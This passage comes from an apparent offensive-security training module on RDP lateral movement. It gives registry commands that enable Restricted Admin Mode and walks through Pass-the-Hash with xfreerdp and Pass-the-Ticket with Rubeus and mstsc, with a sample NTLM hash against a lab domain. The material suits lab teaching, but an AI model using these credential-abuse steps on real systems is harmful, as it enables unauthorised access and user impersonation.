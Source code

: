 If the key does not exist it means that is disabled.

Additionally, to enable `Restricted Admin Mode`, we would set the `DisableRestrictedAdmin` value to `0`. Here is the command to enable it:

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD
```

And to disable `Restricted Admin Mode`, set the `DisableRestrictedAdmin` value to `1`:

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD
```

## Pass the Hash and Pass the ticket for RDP
If the `Restricted Admin Mode` is enable we can abuse this to authenticate using **hash** or **ticket**.

To perform `Pass the Hash` from a Linux machine, we can use `xfreerdp` with the `/pth` option to use a hash and connect to RDP. Here's an example command:

```bash
proxychains4 -q xfreerdp /u:helen /pth:62EBA30320E250ECA185AA1327E78AEB /d:inlanefreight.local /v:172.20.0.52
[13:11:55:443] [84886:84887] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[13:11:55:444] [84886:84887] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
```

For `Pass the Ticket` we can use [Rubeus](https://github.com/GhostPack/Rubeus). We will forge a ticket using `Helen`'s hash. First we need to launch a sacrificial process with the option `createnetonly`:

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
```

In the new PowerShell window we will use User's hash to forge a Ticket-Granting ticket (TGT):

```powershell-session
.\Rubeus.exe asktgt /user:<insert-the-user> /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:inlanefreight.local /ptt
```

From the powershell session were we have imported the TGT we can use `mstsc /restrictedAdmin`:

```powershell
C:\Tools> mstsc.exe /restrictedAdmin
```

It will open a window as the currently logged-in user. **It doesn't matter if the name is not the same as the account we are trying to impersonate.**

![text](https://academy.hackthebox.com/storage/modules/263/mstsc-restrictedadmin.png)

When we click login, it will allow us to connect to RDP using the hash:

![text](https://academy.hackthebox.com/storage/modules/263/mstsc-rdp-with-ticket.png)
